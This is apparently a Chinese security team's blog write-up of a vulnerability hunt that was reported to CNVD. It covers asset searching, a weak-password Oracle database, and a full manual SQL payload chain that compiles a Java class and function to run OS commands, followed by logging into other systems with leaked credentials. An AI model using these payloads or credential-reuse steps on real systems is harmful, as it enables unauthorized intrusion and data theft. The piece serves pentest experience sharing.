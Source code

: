 #  记一次CNVD事件漏洞挖掘思路   
 奉天安全团队   2024-12-18 03:01  
  
免责声明：  
  
文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责  
### 一、信息收集  
  
信息收集的目的是了解目标的基本情况，包括网络拓扑结构、系统架构、运行的服务和应用程序、已知漏洞、潜在安全风险等。通过信息收集，渗透测试人员可以获得对目标的深入了解，从而确定可能的攻击矢量和漏洞利用路径，为后续的渗透测试工作做准备。  
  
通过鹰图平台进行查询：  
  
icp.name=xxx  
  
该语法是搜索ICP备案单位名中含有“xxx”的资产  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ86b7MhI4qWD29EvmtCRGXHmtbZbnuDKa4BrLgUIicYC6N46uWLDyjqIUA/640?wx_fmt=png&from=appmsg "")  
  
很快找到了一个数据库存在弱口令  
  
通过工具 我们对进行漏洞利用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ86meYOCf8z4ylcBuEKWbh6f8ISRVTeLeU1B58KJFib7bBLRC4JTpvze7g/640?wx_fmt=png&from=appmsg "")  
  
上述工具Rce命令执行并不稳定，会存在报错等情况。  
  
这里还有一种手法通过手工Payload提权，到创建函数，在Navicat上稳定命令执行：  
  
1、创建java source：  
  
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;  
  
2、创建函数：  
  
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;  
  
3、可以通过查询OBJECT_ID来判断函数是否创建成功:  
  
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD';  
  
4、最后一步执行命令：  
  
  
select LinxRUNCMD('/sbin/ifconfig') from dual;  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ86EdohOicEF7XSNxG8yfFUDSHdGwWn8ckl6KialKweJHW5wxzpLgia0IEzA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ86E8p0cLYsS5J75QBnLm4518Zr2TCxWgbHicibl0ibDhSW58FnGuhvVia2aQ/640?wx_fmt=png&from=appmsg "")  
  
从上述数据库发现的其他数据库配置，连接，数据情况  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ86J3sQVk0B8s666XUCEtHAdDIibjEl6cxPu1aRe3SWAme6YHKktLKCxaA/640?wx_fmt=png&from=appmsg "")  
  
上述文件导致测试账密泄露，下面是利用文件里的账密撞库成功  
  
http://xxxxxx/login  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ8626Fuib0jmmnljZX41ibrYXGEnK58VrkZKficx2oVsGIxSX0xHqrekumfg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ865ULOC5GflWjAvcLvO1jm6GDiadBDbibjicFM3b9bEju1icTeEnc9KcCDyg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FxYwHqCMGPHAmnqKjH6QdRBYjx2BGJ86IkcvyRSricbccicJlAkE8TY5YAosfy82bWqSOoibpzsCia0lUibJ4OTCIPg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
